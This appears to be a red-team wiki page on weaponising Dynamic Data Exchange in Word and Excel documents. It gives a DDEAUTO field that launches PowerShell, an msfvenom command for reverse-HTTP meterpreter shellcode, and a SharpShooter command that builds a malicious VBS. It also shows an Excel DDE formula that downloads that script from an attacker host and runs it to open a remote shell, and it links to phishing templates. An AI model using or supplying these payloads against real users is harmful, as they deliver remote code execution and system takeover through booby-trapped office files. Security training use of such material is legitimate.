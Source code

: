 # ⭕ DDE Auto - Word/Excel

{% embed url="https://github.com/0xdeadbeefJERKY/Office-DDE-Payloads" %}

{% embed url="https://github.com/MartinSohn/Office-phish-templates" %}

## <mark style="color:red;">Intro</mark>

DDE is an old MS technology that is used to facilitate data transfer between applications. DDE sends messages between applications that share data and uses shared memory to exchange data between applications.  DDE can be embedded in several Office file formats

To leverage this attack vector:

Open a new MS document and insert a field

![](<../../.gitbook/assets/image (51).png>)

It will add an "!Unexpected End of Formula" to the document, we right-click it and "Toggle field codes" :

![](<../../.gitbook/assets/image (33) (1).png>)

We then replace the = \* MERGEFORMAT with the payload: 1 { DDEAUTO "C:\Programs\Microsoft\Office\MSWord.exe\\..\\..\\..\windows\system32\WindowsPowershell\v1.0\powershell.exe start calc # " "required"}​ Copied! If we save the document, reopen our document and accept the 2 prompts, calculator will popup.



This attack has been tested on the latest Windows10 LTSC edition with Microsoft Office 365 with up-to-date Windows Defender.

#### Requirements:

* Enabled Dynamic Data Exchange Server Lookup
* Enabled Dynamic Data Exchange Server Launch

Warning presented to the user who opens the worksheet:

![](<../../.gitbook/assets/image (2) (1).png>)

## <mark style="color:red;">Exploitation</mark>

generate msfvenom shellcode:

```
msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=192.168.1.108 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f raw -o raw3.txt
```

Create a malicious VBS script with SharpShooter with included raw3.txt shellcode file we generated earlier:

{% embed url="https://github.com/mdsecactivebreach/SharpShooter" %}

```
python2 SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo2 --rawscfile raw3.txt --amsi amsienable
```

And inject the command to Microsoft Excel function:

```
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\msf.vbs http://192.168.1.108:8000/foo2.vbs & %tmp%\\msf.vbs'!'A1'
```

After the user skips the warning we get a meterpreter shell:

![](<../../.gitbook/assets/image (8).png>)

